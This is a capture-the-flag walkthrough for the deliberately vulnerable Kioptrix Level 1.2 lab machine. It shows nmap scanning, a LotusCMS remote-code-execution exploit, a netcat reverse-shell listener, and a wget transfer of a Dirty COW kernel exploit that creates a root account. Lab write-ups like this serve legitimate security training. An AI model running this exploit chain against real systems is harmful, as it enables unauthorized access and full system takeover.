:::::::::::::::::::::::::::: page
# Kioptrix: Level 1.2 {#kioptrix-level-1.2 .title}

\

## 

## Kioptrix: Level 1.2

- **[Kioptrix: Level 1.2]{style="color:#237522;"}** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/kioptrix-level-12-3,24/>



- [Machine Setup]{style="color:#9141ac;"} :

1.  Now unrar the file .

<!-- -->

1.  Make a new machine in virtual box .

 Click to finish .

1.  .vmdk file add in machine folder :



1.  Now go to machine setting :
2.  Remove empty section from controller IDE .
3.  Click add hard disk .





- After select the file the click to choose .
- Network is bridge adapter .

1.  Start the machine .



1.  [Network Scanning]{style="color:#9141ac;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.181
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.181
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.181    
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.181
:::

1.  [Web Enumeration]{style="color:#9141ac;"} :

- IP visit in browser : <http://192.168.2.181>

<!-- -->

- In port 80 go to login page we found a site "Proudly Powered by:
  LotusCMS" :

 I decided to search for public exploits related
to LotusCMS.

- Search the LotusCMS version :

::: codebox
    searchsploit LotusCMS
:::



1.  [Reverse Shell]{style="color:#9141ac;"} :

- LotusCMS exploit search in browser :

::: codebox
    https://github.com/Hood3dRob1n/LotusCMS-Exploit
:::

- Download the exploit :

::: codebox
    git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit
:::



- Execute the .sh file :

::: codebox
    ./lotusRCE.sh 192.168.2.181 /
:::

- Start the reverse shell listener :

::: codebox
    nc -l -p 443 -vvv
:::

 After select 1 then click enter .

- Get the shell :

 But the shell is non-interactive .

- Upgrading to a Fully Interactive Shell :

::: codebox
    python -c 'import pty; pty.spawn("/bin/bash")'
:::



1.  [SSH Access]{style="color:#9141ac;"} :

- Gathered system info :

::: codebox
    uname -a
:::



- Searching for a local privilege escalation exploit :

::: codebox
    searchsploit Linux Kernel 2.6.24-24 privilege Escalation
:::



- Then copy the exploit to new directory :

::: codebox
    mkdir /tmp/share
:::

- 

::: codebox
    cd /tmp/share
:::

- 

::: codebox
    searchsploit -m linux/local/40839.c
:::



- Start the python server to file transfer in server :

::: codebox
    python -m http.server 8080
:::



- Transferring the exploit file on the target :

::: codebox
    cd /tmp
:::

- 

::: codebox
    wget http://192.168.2.219:8080/40839.c
:::



- Exploit source code compile :

::: codebox
    gcc 40839.c -o expo -lcrypt -lpthread
:::

- Permission on the file :

::: codebox
    chmod +x expo
:::

- Run the exploit :

::: codebox
    ./expo
:::

- It asked for a new password :

::: codebox
    12345
:::



- It created a new root user :

::: codebox
    firefart:fi3LLch28IK7A:0:0:pwned:/root:/bin/bash
:::

- Make a ssh connection with the supported host key algorithm :

::: codebox
    ssh -oHostKeyAlgorithms=+ssh-rsa firefart@192.168.2.181
:::


::::::::::::::::::::::::::::
